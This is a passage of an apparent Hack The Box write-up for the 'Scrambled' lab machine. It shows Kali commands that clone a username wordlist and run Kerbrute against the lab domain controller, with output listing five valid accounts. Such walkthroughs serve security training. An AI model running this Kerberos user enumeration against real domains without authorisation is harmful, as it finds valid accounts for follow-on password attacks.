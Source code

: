 We also need a list of usernames to try, [this](https://github.com/attackdebris/kerberos_enum_userlists) is a good repo with lots of options:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# git clone https://github.com/attackdebris/kerberos_enum_userlists.git
Cloning into 'kerberos_enum_userlists'...
remote: Enumerating objects: 57, done.
remote: Total 57 (delta 0), reused 0 (delta 0), pack-reused 57
Receiving objects: 100% (57/57), 266.28 KiB | 1.55 MiB/s, done.
Resolving deltas: 100% (37/37), done.
 ```

There's lots of good guides out there on Windows user enumeration, [this](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology#user-enumeration) from HackTricks shows us Kerbrute among others. Also [this](https://www.tarlogic.com/blog/how-to-attack-kerberos/) is a really good article with lots of examples.

First we need to add the DC to our hosts file:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# echo "10.10.11.168 scrm.local dc1.scrm.local" >> /etc/hosts
```

## User Enumeration

Now let's do it:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# ./kerbrute_linux_amd64 userenum -d scrm.local --dc scrm.local kerberos_enum_userlists/A-ZSurnames.txt -t 100 -o kerb-user.txt
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
Version: v1.0.3 (9dad6e1) - 07/08/22 - Ronnie Flathers @ropnop

2022/07/08 17:47:26 >  Using KDC(s):
2022/07/08 17:47:26 >   scrm.local:88

2022/07/08 17:47:26 >  [+] VALID USERNAME:       ASMITH@scrm.local
2022/07/08 17:47:27 >  [+] VALID USERNAME:       JHALL@scrm.local
2022/07/08 17:47:27 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2022/07/08 17:47:27 >  [+] VALID USERNAME:       KHICKS@scrm.local
2022/07/08 17:47:29 >  [+] VALID USERNAME:       SJENKINS@scrm.local
2022/07/08 17:47:34 >  Done! Tested 13000 usernames (5 valid) in 7.847 seconds
```

We've got a few hits. Let's make a useable list:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# cat kerb-user.txt | tail -n +3 | cut -d ' ' -f 8 | head -n -1 > users.txt

┌──(root㉿kali)-[~/htb/scrambled]
└─# cat users.txt
ASMITH@scrm.local
JHALL@scrm.local
KSIMPSON@scrm.local
KHICKS@scrm.local
SJENKINS@scrm.local
```
